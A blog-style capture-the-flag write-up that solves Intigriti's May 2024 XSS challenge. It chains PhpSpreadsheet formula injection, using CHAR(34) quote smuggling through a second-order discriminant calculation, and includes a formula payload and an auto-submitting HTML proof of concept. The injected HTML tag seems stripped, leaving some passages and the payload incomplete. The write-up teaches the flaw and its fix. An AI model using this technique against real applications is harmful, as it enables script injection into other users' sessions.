









## Introduction

Hey folks! Hope everyone's doing great!

So I was going through Intigriti's monthly XSS challenges and stumbled upon their May 2024 challenge. If you're not familiar with Intigriti's challenges — every month they drop a new XSS challenge where the goal is simple: pop an `alert(document.domain)` on the challenge page. Sounds easy right? Well, trust me, these challenges are anything but straightforward.

The May 2024 challenge was particularly interesting because it wasn't your typical reflected XSS or DOM-based XSS. It involved something I hadn't exploited before in a web context — **PhpSpreadsheet Formula Injection** leading to XSS. Yeah, you read that right. Spreadsheet formulas. In a web app. Leading to XSS.

Let me walk you through my entire thought process from start to finish.

## The Challenge

The challenge was hosted at:

```
https://challenge-0524.intigriti.io/challenge.php
```

When you visit the page, you're greeted with a clean, simple UI — a **Quadratic Equation Solver**. You enter coefficients A, B, and C for the equation `Ax² + Bx + C = 0`, hit Calculate, and it gives you the roots.



Pretty innocent looking, right? Just a math calculator. But this is an XSS challenge, so obviously something's off under the hood.

## Step 1: Reading the Source Code

The first thing I noticed was a **"View Source"** button at the bottom left. Clicking it takes you to `challenge.php?source=challenge.php` which uses PHP's `highlight_file()` to show you the complete server-side source code. This is super helpful — no need to guess what's happening on the backend.



Let me break down the important parts of the PHP code:

```php
<?php
error_reporting(E_ALL);

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

require '../vendor/autoload.php';

use PhpOffice\PhpSpreadsheet\Calculation\Calculation;
?>
```

So right off the bat, we see they're using **PhpSpreadsheet** — a PHP library for reading and writing spreadsheet files. But here they're specifically using the `Calculation` class which can evaluate spreadsheet formulas like Excel/Google Sheets.

Now here's the juicy part — the form handling:

```php
<?php
if (isset($_POST['submit'])) {
    if (empty($_POST['A']) || empty($_POST['B']) || empty($_POST['C'])) {
        echo "<div class='alert alert-danger mt-3' role='alert'>Error: Missing vars...</div>";
    }
    elseif ($_POST['A'] == 0) {
        echo "<div class='alert alert-danger mt-3' role='alert'>Error: The equation is not quadratic</div>";
    } else {
        echo "<div class='alert alert-info mt-3' role='alert'>";
        echo '<b>Roots:</b><br>';

        $discriminantFormula = '=POWER(' . $_POST['B'] . ',2) - (4 * ' . $_POST['A'] . ' * ' . $_POST['C'] . ')';
        $discriminant = Calculation::getInstance()->calculateFormula($discriminantFormula);

        $r1Formula = '=IMDIV(IMSUM(-' . $_POST['B'] . ',IMSQRT(' . $discriminant . ')),2 * ' . $_POST['A'] . ')';
        $r2Formula = '=IF(' . $discriminant . '=0,"Only one root",IMDIV(IMSUB(-' . $_POST['B'] . ',IMSQRT(' . $discriminant . ')),2 * ' . $_POST['A'] . '))';

        echo Calculation::getInstance()->calculateFormula($r1Formula);
        echo Calculation::getInstance()->calculateFormula($r2Formula);
        echo "</div>";
    }
}
?>
```

When I saw this code, I was literally staring at it for a few minutes because there are **multiple vulnerabilities** stacked on top of each other. Let me point them out one by one.

## Step 2: Identifying the Vulnerabilities

### Vulnerability #1: No Input Sanitization in Formulas

Look at how the discriminant formula is built:

```php
$discriminantFormula = '=POWER(' . $_POST['B'] . ',2) - (4 * ' . $_POST['A'] . ' * ' . $_POST['C'] . ')';
```

The user input from `$_POST['A']`, `$_POST['B']`, and `$_POST['C']` is **directly concatenated** into the formula string without ANY sanitization. No `htmlentities()`, no `intval()`, no validation that these are actually numbers. Nothing.

Now you might think — "But bro, the input fields use `htmlentities()` right?" Yes, but only for **displaying the values back in the form fields**:

```php
<input type="text" class="form-control" name="A" 
       value="<?php echo (isset($_POST['A'])) ? htmlentities($_POST['A']) : ''; ?>">
```

That `htmlentities()` is only for the `value` attribute rendering. The actual POST data goes straight into the formula engine RAW.

### Vulnerability #2: No Output Encoding

And here's the killer part — the result of `calculateFormula()` is echoed directly:

```php
echo Calculation::getInstance()->calculateFormula($r1Formula);
echo Calculation::getInstance()->calculateFormula($r2Formula);
```

No `htmlentities()` on the output! So if we can somehow make the formula engine return a string containing HTML tags, it will be rendered as actual HTML in the browser.

### Vulnerability #3: 2nd-Order Injection

This is the most interesting part. Notice how the flow works:

1. User input → `discriminantFormula` → `calculateFormula()` → result stored in `$discriminant`
2. `$discriminant` → interpolated into `$r1Formula` and `$r2Formula` → `calculateFormula()` again → echoed

The discriminant result is **interpolated into another formula**. This creates a **2nd-order injection** — we inject through the first formula, and the output gets injected into the second formula. This is crucial for building our exploit.

### No CSP Headers

One more thing I checked — the response headers:



No `Content-Security-Policy` header, no `X-XSS-Protection`. This means if we can inject HTML with inline event handlers (like `onerror`), it will execute without any restrictions. This was a huge relief because in some challenges, CSP can completely block your XSS even if you manage to inject HTML.

## Step 3: Testing a Normal Calculation

Before going crazy with payloads, I first tested that the calculator actually works. I used `A=1, B=-5, C=6` which should give roots `x=2` and `x=3` (basic factoring: `x²-5x+6 = (x-2)(x-3) = 0`).



Works perfectly. The discriminant would be `(-5)² - 4(1)(6) = 25-24 = 1`, and the roots are correctly computed using the quadratic formula. Now let's break it.

## Step 4: First Injection Attempt

Since the input goes directly into the formula, I tried injecting spreadsheet formula syntax through `C`. My first test was:

```
C = 1)&"INJECTED"&(1
```

The idea was to break out of the `POWER()` function call in the discriminant formula and inject a string concatenation using `&` (which is the string concatenation operator in spreadsheet formulas, just like in Excel).

So the discriminant formula would become:

```
=POWER(1,2) - (4 * 1 * 1)&"INJECTED"&(1)
```



And boom — I got a **PhpSpreadsheet error**! The error says `undefined name 'NJECTED1'` which tells me two things:

1. **The injection works** — my input is being parsed as formula syntax, not just a plain string
2. **The formula parser is trying to evaluate my injected content** — it's treating `"INJECTED"` somehow and getting confused

This confirmed my theory. Now I needed to craft a proper payload.

## Step 5: Understanding the Injection Chain

Let me draw out the full injection flow:



Here's the key insight: I need to inject through parameter `C` such that:

1. **Stage 1 (Discriminant formula)**: My injected C value makes the discriminant formula return a crafted string that contains spreadsheet formula syntax with `"` (double-quote) characters
2. **Stage 2 (r1Formula)**: When this crafted discriminant value gets interpolated into `$r1Formula`, the `"` characters act as **string delimiters** in the formula, allowing me to inject arbitrary string content — including HTML tags

The challenge was: how do I get double-quote characters into the discriminant result? I can't just type `"` in the C parameter because that would mess up the PHP string concatenation.

The trick is **`CHAR(34)`** — the spreadsheet function that returns the character with ASCII code 34, which is `"` (double-quote). This is a classic spreadsheet formula injection technique.

## Step 6: Crafting the Final Payload

After a lot of trial and error (and maybe a cup of chai), I came up with this payload for parameter `C`:

```
1)&"0)),2*1)&"&CHAR(34)&""&CHAR(34)&"&IMDIV(IMSUM(0,IMSQRT("&(0
```

I know it looks like absolute chaos, but let me break it down step by step.

### Breaking Down the Payload

**In the Discriminant Formula (Stage 1):**

The discriminant formula becomes:

```
=POWER(1,2) - (4 * 1 * 1)&"0)),2*1)&"&CHAR(34)&""&CHAR(34)&"&IMDIV(IMSUM(0,IMSQRT("&(0)
```

Let's trace what happens:

1. `POWER(1,2) - (4 * 1 * 1)` evaluates to `-3`
2. Then `&"0)),2*1)&"` concatenates the string `0)),2*1)&`
3. Then `&CHAR(34)` adds a `"` character
4. Then `&""` adds our XSS payload
5. Then `&CHAR(34)` adds another `"` character
6. Then `&"&IMDIV(IMSUM(0,IMSQRT("` adds more formula syntax
7. Then `&(0)` concatenates `0`

So the discriminant evaluates to a string like:

```
-30)),2*1)&""&IMDIV(IMSUM(0,IMSQRT(0
```

**In the r1Formula (Stage 2):**

Now this discriminant value gets plugged into r1Formula:

```php
$r1Formula = '=IMDIV(IMSUM(-1,IMSQRT(' . $discriminant . ')),2 * 1)';
```

Which becomes:

```
=IMDIV(IMSUM(-1,IMSQRT(-30)),2*1)&""&IMDIV(IMSUM(0,IMSQRT(0)),2 * 1)
```

Notice how the `"` characters from `CHAR(34)` now act as **string delimiters** in the r1Formula! The formula effectively:

1. Computes `IMDIV(IMSUM(-1,IMSQRT(-30)),2*1)` → complex number result
2. Concatenates `&` with the string `` (enclosed in `"`)  
3. Concatenates `&` with `IMDIV(IMSUM(0,IMSQRT(0)),2*1)` → `0.0`

The output is:

```
-0.5+2.7386127875259i0.0
```

And this gets echoed **without `htmlentities()`** — so the `` tag is rendered as real HTML!

## Step 7: Popping the Alert!

Testing the final payload with `A=1, B=1, C=<payload>`:



**BOOM! `alert(document.domain)` fires with the message `challenge-0524.intigriti.io`!** 🎉

Looking at the page after dismissing the alert, we can see the injected HTML in the DOM:



The `` tag is right there in the response, rendered as raw HTML. The r2Formula crashes with a `Fatal error` because the malformed discriminant value breaks the IF() condition check, but that's fine — our XSS from r1Formula already executed before the error.

And just to show the raw HTTP response for the hackers who like curl:



## The PoC

Here's the complete Proof of Concept. You can save this as an HTML file and open it in a browser:

```html
<!DOCTYPE html>
<html>
<head><title>Intigriti May 2024 XSS PoC</title></head>
<body>
<h2>Intigriti May 2024 Challenge - XSS PoC</h2>
<p>Auto-submitting form to trigger XSS via PhpSpreadsheet formula injection...</p>
<form id="xss" method="POST" action="https://challenge-0524.intigriti.io/challenge.php">
    <input type="hidden" name="A" value="1">
    <input type="hidden" name="B" value="1">
    <input type="hidden" name="C" id="payload">
    <input type="hidden" name="submit" value="Calculate">
</form>
<script>
document.getElementById('payload').value = '1)&"0)),2*1)&"&CHAR(34)&""&CHAR(34)&"&IMDIV(IMSUM(0,IMSQRT("&(0';
HTMLFormElement.prototype.submit.call(document.getElementById('xss'));
</script>
</body>
</html>
```

> **Note:** The payload value is set via JavaScript instead of inline HTML to avoid breaking the HTML parser with quotes. Also, `HTMLFormElement.prototype.submit.call()` is used instead of `form.submit()` because the hidden input with `name="submit"` shadows the form's native `submit()` method.

## Key Takeaways

### 1. PhpSpreadsheet Formula Injection is Real

If you're using PhpSpreadsheet's `calculateFormula()` with user input, you MUST validate that the input contains only numbers. Just because it's a "calculator" doesn't mean it's safe. Spreadsheet formula engines support string operations, function calls, and complex logic — all of which can be abused.

### 2. Always Encode Output

The fix for this challenge would have been dead simple:

```php
echo htmlentities(Calculation::getInstance()->calculateFormula($r1Formula));
```

One function call. That's it. Never trust the output of any function that processes user input, even indirectly.

### 3. 2nd-Order Injection is Sneaky

The real elegance of this exploit is the 2nd-order injection. The discriminant formula's output becomes part of another formula. This is something that code reviews often miss because the secondary formula doesn't directly contain user input — it contains the "result" of a "calculation." But if that calculation can be manipulated to output formula syntax, all bets are off.

### 4. CHAR() is Your Best Friend

Spreadsheet formulas have `CHAR()` which returns any ASCII character by its code. `CHAR(34)` gives you `"` which is essential for injecting string delimiters into formula contexts. Remember this trick — it's the formula-injection equivalent of using `String.fromCharCode()` in JavaScript XSS.

### 5. Check the Response Headers

Always check for CSP. This challenge had no Content-Security-Policy header, which meant inline event handlers like `onerror` would execute without issues. If there had been CSP with `script-src 'self'`, this approach wouldn't have worked and we'd need a completely different strategy.

## Conclusion

This was honestly one of the more creative XSS challenges I've solved. It wasn't just about finding an injection point — it required understanding how spreadsheet formula engines work, chaining a 2nd-order injection through the discriminant calculation, and using `CHAR(34)` to smuggle quote characters through the formula evaluation.

Thanks to Intigriti for putting together such a creative challenge! If you haven't tried their monthly challenges yet, I would highly recommend them because each month you learn something completely new.

Until next time, happy hacking!
